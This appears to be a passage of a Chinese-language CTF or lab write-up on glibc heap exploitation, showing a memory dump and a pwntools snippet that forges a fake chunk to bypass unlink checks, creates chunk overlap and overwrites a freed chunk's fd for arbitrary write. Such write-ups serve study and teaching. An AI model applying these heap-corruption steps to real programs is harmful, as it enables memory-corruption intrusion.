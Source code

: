 ![image-20220222194908381](images/image-20220222194908381.png)

因此我们可以通过这个堆块往上或者往下去free，这里我的想法是往下free，因为下面的内容我们可以控制，我们可以通过这样构造一个fake_chunk给他free，然后再申请回来构造堆块重叠来修改已经被free的堆块来构造任意地址写

```
0x1f7c2b0:	0x0000000000000000	0x0000000000001011 - real prv_szie and real size
0x1f7c2c0:	0x0000000000000000	0x0000000000000081 - fake prv_szie and fake size
0x1f7c2d0:	0x0000000000404000	0x0000000000404008 - 绕过unlink检查
0x1f7c2e0:	0x4141414141414141	0x4141414141414141
0x1f7c2f0:	0x4141414141414141	0x4141414141414141
0x1f7c300:	0x4141414141414141	0x4141414141414141
0x1f7c310:	0x4141414141414141	0x4141414141414141
0x1f7c320:	0x4141414141414141	0x4141414141414141
0x1f7c330:	0x4141414141414141	0x4141414141414141
0x1f7c340:	0x0000000000000080	0x0000000000000090 - 0x80 fake_prv_size
```

构造：

```python
	target = 0x404018 # 固定值就行，为了绕过检查
	fd = target - 0x18
	bk = target - 0x10
	fake_chunk = p64(0)+p64(0x81)+p64(fd)+p64(bk)+"A"*0x60+p64(0x80)
	add(0x1000,fake_chunk)
	free(0x30)
	gdb.attach(sh,"b *0x0000401387 ")
	add(0x1000,p64(0)+p64(0x81)+p64(target)) # 修改free chunk的fd
```
